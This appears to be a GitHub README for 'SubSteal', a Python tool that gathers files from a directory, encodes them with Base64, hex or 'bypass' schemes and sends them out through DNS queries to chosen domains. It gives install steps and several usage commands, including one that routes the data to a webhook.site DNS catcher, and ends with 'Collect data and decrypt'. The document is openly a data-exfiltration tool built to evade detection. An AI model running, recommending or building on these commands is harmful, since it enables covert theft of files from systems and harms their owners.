

# SubSteal

## Description
SubSteal is a Python script designed to send data to subdomains using various encryption methods. This script can be used to distribute data across multiple domains and query them using different DNS record types.

## Features
- Collects files from a specified directory.
- Encodes data using Base64, hexadecimal, and custom bypass methods.
- Sends data to subdomains using DNS queries.
- Supports multiple DNS query modes: TXT, A, NS, and RANDOM.

## Requirements
- Python 3.x
- `os`, `subprocess`, `base64`, `json`, `binascii`, `time`, `argparse`, `random`, `signal`, `sys` modules (standard Python libraries)
- dig

## Installation
Clone the repository:
```
git clone https://github.com/mel4mi/SubSteal
cd SubSteal
python3 SubSteal.py
```


# Usage
Run the script with the required arguments:

Arguments:
```
--domains       #List of domains to distribute data across (required).
--encryption    #Encryption method to use (xxd, low_bypass, medium_bypass) (required).
--mode          #Query mode (TXT, A, NS, RANDOM). Default is TXT.
```

Example Usage:
```
python3 SubSteal.py --domains example.com example2.com --encryption xxd
```
```
python3 SubSteal.py --domains example.com example2.com --encryption low_bypass
```
```
python3 SubSteal.py --domains example.com --encryption xxd
```
```
python3 SubSteal.py --domains example.com --encryption xxd --mode RANDOM
```
Try on WebHook:
1. Go [Webhook](https://webhook.site/)
2. Copy "Your unique DNS name" Url
3. Run the command:
 ```
python3 --domains WebhookDomain --encryption xxd
```

Client Side:


Server Side:


4. Collect data and decrypt


